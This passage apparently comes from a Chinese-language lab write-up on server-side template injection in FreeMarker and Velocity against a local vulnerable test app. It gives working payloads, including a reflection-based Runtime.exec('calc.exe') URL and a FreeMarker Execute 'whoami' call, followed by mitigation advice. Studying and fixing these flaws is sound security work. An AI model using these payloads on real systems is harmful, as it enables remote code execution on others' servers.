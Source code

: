 `<#assign ex="freemarker.template.utility.Execute"?new()>`作用是创建一个新的变量，并将其存储在一个名为 ex 的变量中，`${ ex("whoami") }`是FreeMarker的插值语法，模板引擎会计算花括号`{}`中的表达式，并将结果输出到最终渲染的文本中。

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758165113057-b3808ff8-bbde-4e48-ab7d-f7bb584e1e6e.png)

5. Velocity模板注入（evaluate场景）

`Velocity.evaluate()`方法会动态地解析并执行传入的模板字符串。Velocity不像FreeMarker那样直接内置命令执行函数，但可以通过反射来访问任意Java对象和方法，这是实现RCE的关键。

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758165836152-dac3ff27-d027-4bb7-ae04-d7843d76319d.png)

PoC：

```plain
http://127.0.0.1:8888/vulnapi/SSTI/velocity/evaluate/http://127.0.0.1:8888/vulnapi/SSTI/velocity/evaluate/vul?username=World%23set($phone=%22HACKED%22)
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758166171001-7258b51e-31d3-4cd9-9873-2ff2c248c338.png)

6. Velocity模板注入（merge场景）

这个漏洞点在于`templateString = templateString.replace("<USERNAME>", username); `这一行，代码从一个固定的模板文件`merge.vm`中读取内容，然后使用`String.replace()`将模板中的`<USERNAME>`这个字符串字面量直接替换为用户输入的`username`。最后，将这个已经被替换过的模板字符串解析并渲染，如果攻击者控制的`username`参数中包含了Velocity模板语法（如`$`, `#`），这些语法会在最终的模板渲染阶段被Velocity引擎解析执行。

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758166558512-aa02f7d9-db13-4125-a9c6-f3604845acb6.png)

PoC：

```plain
http://127.0.0.1:8888/vulnapi/SSTI/velocity/merge/vul?username=%23set(%24e%3D%22e%22)%24e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22%2Cnull).invoke(null%2Cnull).exec(%27calc.exe%27)
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758167957031-ba757981-78bd-4384-9ea7-f374c780422e.png)

这里对原有代码进行了改动，因为原代码会出现路径解析报错，直接通过文件路径读取模板文件，修改后的代码使用`ClassLoader.getResourceAsStream()`从类路径加载模板文件，避免了路径解析问题。

### 修改意见
1. 白名单限制模板参数

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758176391624-1d98f406-b750-47cd-8ad3-ac32c36e1137.png)

2. `controller`的参数设置为`HttpServletResponse`

Spring认为它已经处理了HTTP Response，因此不会发生视图名称解析

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758176488252-ad939ad9-d429-4948-b45f-416288bd593a.png)

3. 设置`@ResponseBody`注解

由于设置`@ResponseBody`注解告诉Spring将返回值作为响应体处理，而不再是视图名称，因此无法进行模板注入攻击

